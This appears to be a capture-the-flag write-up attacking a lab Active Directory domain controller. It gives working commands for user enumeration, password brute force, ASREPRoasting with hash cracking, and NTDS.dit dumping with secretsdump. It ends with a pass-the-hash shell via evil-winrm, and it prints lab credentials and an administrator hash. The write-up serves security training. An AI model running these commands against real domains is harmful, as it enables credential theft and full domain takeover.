 # **Attacking Active Directory**

Running our nmap scan we have 

```bash
# Nmap 7.94 scan initiated Fri Dec 29 07:26:23 2023 as: nmap -p53,80,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sCV --min-rate=1000 -T4 -oN nmap.txt -v 10.10.234.228
Nmap scan report for 10.10.234.228
Host is up (0.29s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-29 06:26:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-12-29T06:26:53
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 29 07:27:07 2023 -- 1 IP address (1 host up) scanned in 44.78 seconds
```


> [!bug]
> According to nmap output, we have `spookysec.local`, in this case `.local` is identified as the Top-Level Domain (TLD)


# **SMB Enumeration - Port 139/445**

We can use the tool `enum4linux` to enumerate this port, we have **THM-AD** as the `NetBIOS-Domain` Name


![](https://i.imgur.com/Uzgypv9.png)


We also have some lists of users

![](https://i.imgur.com/JaORfAd.png)


We can also use `rpcclient` to enumerate 


```bash
rpcclient -U "" -N 10.10.234.228
```


![](https://i.imgur.com/L10FL7X.png)


Some important commands as used above -:


```bash
rpcclient>srvinfo

rpcclient>enumdomusers

rpcclient>getdompwinfo
```


We couldn't get anything from `rpcclient` though, so let keep enumerating



# **Kerberos Enumeration - Port 88**


We can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) to enumerate this service to brute force discovery of users, passwords and even password spray!

> [!info]
> Kerberos is a key authentication service within Active Directory.

- **Enumerate** users on a domain

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute userenum --dc 10.10.234.228 -d spookysec.local <Username_wordlist>
```


![](https://i.imgur.com/BOwIWDn.png)


- Bruteforce password of a single user

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute bruteuser --dc 10.10.234.228 -d spookysec.local <passwd_wordlist> <username>
```


![](https://i.imgur.com/2iAQcWV.png)
![](https://i.imgur.com/UxGMJ1D.png)


# **Abusing Kerberos**


we can abuse a feature within Kerberos with an attack called **ASREPRoasting**, we can use a tool called `GetNPUsers.py` withing **impackets** to do this


```bash
GetNPUsers.py spookysec.local/ -dc-ip 10.10.234.228 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```


As we can see below we have the hash of only `svc-admin` user, a service account


![](https://i.imgur.com/flTlJ5Y.png)


we can go ahead and crack it using `hashcat`

```bash
hashcat -m 18200 hashes.txt ./passwordlist.txt
```


![](https://i.imgur.com/V5Dqn9w.png)

Same password we got with `kerbrute`, Nice :)


# Enumeration Cont'D


Since we now have the username and passwords of the `svc-admin` user and `backup` user given more access within the domain, We can now attempt to enumerate any shares that the domain controller may be giving out.

First tool that comes to mind is `smbclient` and `smbmap`, let try to see shares on this users

```bash
# smbclient
smbclient -U 'svc-admin' -L \\\\10.10.234.228\\

# smbmap
smbmap -u 'svc-admin' -p 'management2005' -H 10.10.234.228
```


`svc-admin` user -:


![](https://i.imgur.com/C3lCOix.png)


`backup` user -:

![](https://i.imgur.com/2iE2kmN.png)


Enumerating `svc-admin` share we found a backup directory with a `backup_credentials.txt` file

![](https://i.imgur.com/TmgRNL6.png)


We can read this file using `smbclient`


![](https://i.imgur.com/ntECgGC.png)

Decoding the content of this file from `Basee64` gives us this


```
backup@spookysec.local:backup2517860
```


Haha, looks like we are a bit faster, `kerbrute` has done most of the work for us :)


```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


# **Elevating Privileges within the Domain**


The backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes. we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account has to offer in `NTDS.dit`

```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


![](https://i.imgur.com/4SRZHpC.png)



Since we have the **Win-RM** port opened(**5985**), we can use a tool called `evil-winrm` to gain shell on our target with just their **usernames** and respective **NT hashes** using the **pass-the-hash** attack

**_Administrator_** -:

```bash
evil-winrm -i 10.10.234.228 -u administrator -H '0e0363213e37b94221497260b0bcb4fc'
```


![](https://i.imgur.com/BMRYiqX.png)


Since we are admin and we can't login via `svc-admin` and `backup` we can go ahead and retrieve the other flags located under `C:\Users\` :)

GG



